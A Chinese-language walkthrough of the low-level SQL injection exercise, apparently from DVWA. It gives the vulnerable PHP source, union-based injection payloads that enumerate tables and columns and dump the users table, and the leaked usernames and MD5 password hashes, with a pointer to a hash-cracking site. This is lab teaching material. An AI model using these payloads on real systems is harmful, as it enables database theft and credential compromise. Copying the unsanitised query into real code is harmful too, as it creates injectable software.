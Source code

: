 <center>SQL InjectionSQL注入</center>







[toc]









## SQL InjectionSQL注入

> SQL注入







### 1. low

> 低级
>
> 代码

```php

<?php

if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    mysqli_close($GLOBALS["___mysqli_ston"]);
}

```

> 没有做任何过滤,查询两列，所以sql语句也只能查两个。



SQL注入思路

> 任务是：`脱库`，获取所有数据。

1. 确认是否有注入

```shell
1' or '1'='1
```

2. 获取当前数据库

```sql
库名
1' union select 1,database()#  

表名
1' union select 1,group_concat(table_name) COLLATE utf8_general_ci from information_schema.tables where table_schema=database() #

表字段名
1' union select 1,group_concat(column_name) COLLATE utf8_general_ci from information_schema.columns where table_name='users' #
```

3. 脱库

```shell
1' or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(user,password) from users #
1' or 1=1 union select * from users #
```

> 获取到数据, 密码对应的用户名等信息。

```shell
1adminadmin,2GordonBrown,3HackMe,4PabloPicasso,5BobSmith
Surname: admin202cb962ac59075b964b07152d234b70,gordonbe99a18c428cb38d5f260853678922e03,13378d3533d75ae2c3966d7e0d4fcc69216b,pablo0d107d09f5bbe40cade3de5c71e9e9b7,smithy5f4dcc3b5aa765d61d8327deb882cf99
```

> [md5](https://cmd5.com/) 解密获取明文密码。牛皮。
